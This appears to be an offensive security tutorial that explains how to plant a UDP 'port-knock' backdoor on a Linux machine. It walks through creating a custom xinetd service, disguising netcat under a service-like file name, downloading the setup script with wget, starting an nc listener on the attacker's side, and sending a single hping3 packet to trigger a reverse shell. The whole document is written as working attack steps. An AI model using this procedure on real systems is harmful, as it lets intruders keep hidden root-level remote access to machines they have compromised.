



backdoor with xinetd daemon (Linux)
Prerequisite:
• the target machine need xinetd installed
target@debian:/$ apt-get install xinetd
• root on the target machine
xinetd is a built-in daemon in Linux, which is used to manage network-based services on Linux systems.
Xinetd listens for incoming requests to ports we can define, and when a specific request is received, we can have it execute a command of our choosing.
To create a backdoor, we will create a custom xinetd service, which listens on a UDP port which we can send a single UDP packet to.
Once that packet is received to the port we define, it will initiate a netcat reverse shell back to our attacker system.
We’re calling it a UDP
port-knock backdoor because once we “knock” on our UDP port, it gives us an immediate reverse shell
1. On the
target machine, we’re going to create a custom xinetd service with the bash script xinetd_server.sh. Run the script on the target host.
The following script, when executed, will create a new xinetd service called “services-udp.” The “services-udp” custom service will be configured to listen on port
65534 UDP on the target machine. It will also require that netcat (nc) is on the target host in the usual /bin/ directory. It will copy the nc executable to a file called “/bin/services-udp.” We’re obscuring netcat as another file in this case.
root@kali:/# wget https://gist.githubusercontent.com/anonymous/3cb8e474b6bb3fd3787bda1e1a55cf56/raw/274621a090ba3b27eb9d7a1b86d33524f26a826e/xinetd_server.sh
root@kali:/# vim xinetd_server.sh
We have to edit
attacker_IP and
attacker_PORT 2. Download xinetd_server.sh to the
target machine from the
attacker machine3. Execute xinetd_server.sh on the
target machine root@debian:/$ ./xinetd_server.sh
We need to be root on the target machine
4. Start listener on the
attacker with the same
<attacker_PORT> you defined in the xinetd_server.sh script before running it.
root@kali:/# nc -nvlp <attacker_PORT>
5. For the final step, we will use a tool called hping3 to send a single UDP packet to
port 65534 on the
target host, at which point, our custom “services-udp” netcat binary will be triggered, and send us a reverse shell. The hping command we will use is:
root@kali:/# hping3 -2 -c 1 <target IP> -p 65534
6. Now we should have received a reverse shell
